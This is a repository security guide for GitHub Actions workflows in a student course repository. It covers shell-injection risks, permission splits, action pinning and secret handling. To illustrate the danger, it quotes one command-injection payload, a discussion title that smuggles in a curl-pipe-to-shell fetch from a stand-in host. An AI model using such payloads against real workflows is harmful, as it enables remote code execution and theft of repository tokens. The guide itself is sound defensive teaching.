

# Security

For anyone writing a workflow in this repository.

The threat model is narrow and specific: **this repository receives untrusted input
from students**, and some of it may one day be executed. Everything below follows from
that.

---

## The two rules

**1. Untrusted content is passed by PATH, never interpolated into a shell.**

**2. Any job that executes untrusted code holds `permissions: {}` and no secrets.**

If you remember nothing else, remember those.

---

## Rule 1 — never interpolate untrusted content

```yaml
# ❌ NEVER
- run: echo "${{ github.event.discussion.body }}"
```

`${{ }}` is substituted **into the shell script text** before the shell runs. A
discussion titled:

```
"; curl evil.sh | sh; #
```

becomes a command. The student did not need write access, a token, or anything else —
they typed it into a text box.

```yaml
# ✅ ALWAYS
- run: python -m lmskit.discussions --event "$GITHUB_EVENT_PATH"
```

The payload is already on disk. Passing the path keeps every hostile title inert,
because nothing is ever parsed as shell.

**If you must have it in an environment variable**, that is safe — env values are not
re-parsed:

```yaml
- env:
    BODY: ${{ github.event.discussion.body }}      # safe: assignment, not interpolation
  run: python process.py                            # read os.environ['BODY']
```

What is **not** safe is `run: something "$BODY"` where the value reaches the shell's
parser. Read it inside the program instead.

### What counts as untrusted

Anything a student can type or name:

- discussion and issue titles, bodies, comments
- branch names, PR titles, file names in a fork
- form field values, labels they request
- the contents of any link they post

Treat all of it as hostile input, regardless of how well you know the student. The
cohort is not the threat model — a compromised account, or a copy-pasted payload the
student did not understand, is.

---

## Rule 2 — the three-job split

**Today this repository executes no student code.** Grading is human, and
[STATUS.md](../09-design-notes/STATUS.md) records that decision.

If that ever changes, use this structure and do not improvise around it:



| Job | Permissions | Secrets | Runs untrusted code |
|---|---|---|---|
| `route` | `{}` | none | no — decides whether to act at all |
| `grade` | `{}` | **none** | **yes** |
| `respond` | `discussions: write` | token only | no |

**Why three and not two.** The job that runs the code must hold nothing worth stealing,
and the job that holds write access must never run the code. Results cross between them
as an **artifact**, not a shared token — an artifact is inert data.

**The grade job must also have:**

- `timeout-minutes:` — a hard cap. Untrusted code does not have to terminate
- no network access if the task does not need it
- no checkout of anything it does not need to read

**Sanitise before posting.** Whatever `respond` echoes back carries the organisation's
identity. Strip `@mentions`, strip HTML comments, cap the length. `lmskit.discussions`
has `sanitise()` for exactly this — use it rather than writing another one.

---

## Workflow permissions

**Default read-only, widen per job.** Repository-wide default is already
`default_workflow_permissions: read`; do not change it.

```yaml
permissions:
  contents: read          # top of file: the floor for every job

jobs:
  publish:
    permissions:
      contents: read
      discussions: write  # this job, and only this job
```

A workflow that declares `permissions: write-all`, or omits `permissions:` entirely on a
repository configured for write, hands a full token to every step — including third-party
actions.

## Actions from outside this organisation

- **Pin to a full commit SHA**, not a tag. A tag can be moved to point at new code:
  ```yaml
  uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11   # v4.1.1
  ```
  The first-party `actions/*` are pinned by major tag here, which is a deliberate
  trade-off for readability. Anything else gets a SHA.
- **Read what it does** before adding it. An action runs with your token.
- Prefer a few lines of shell over a dependency for anything simple.

## `pull_request_target` — avoid it

It runs with a **write token** in the context of the **base** repository while checking
out the **fork's** code. That combination is how most GitHub Actions compromises happen.

If you need to comment on a PR from a fork, use `pull_request` (no write token) and have
a separate `workflow_run` job do the commenting. Do not check out fork code in any
workflow that holds write permissions.

---

## Secrets

- **Credentials are never files.** Not in `.config/`, not in the private repo, nowhere in
  any tree. Org or repo secrets only.
- **No personal access tokens for automation.** A PAT carries one human's full access
  and outlives their involvement. Use `GITHUB_TOKEN`, or a GitHub App scoped to exactly
  what it needs.
- **Never echo a secret**, even truncated. Masking is best-effort and a base64 round-trip
  defeats it.
- **Rotate on staff departure.** This is the step most often missed — check App keys,
  repo secrets, and Drive service-account membership.

`.gitignore` blocks `*.pem`, `*.key`, `service-account*.json`, `.env` and similar. That
is a safety net, not a sanctioned location.

---

## Approval gates

Publication goes through a GitHub **Environment** (`content-publish`) with required
reviewers. The job cannot run until a named person approves it in the Actions UI.

Generation is cheap and reversible. Publication is neither — it is visible to the whole
cohort, and unpublishing does not unsend a notification.

## Student access

Students have **read** only, and no triage role. Triage would let a student relabel and
close other people's threads.

The full model is in [access-control.md](access-control.md). The relevant point here:
because students can read every file, **anything unreleased is not pushed until its
date** — solutions, answer-bearing rubrics, labelled datasets. Git history is permanent,
so committing early and deleting later does not undo it.

---

## Reporting a problem

Found something in this repository that looks exploitable? **Do not open a public
issue.** Message the batch owner directly.

That includes a workflow that interpolates untrusted input, a leaked credential in the
history, or an action you do not recognise.
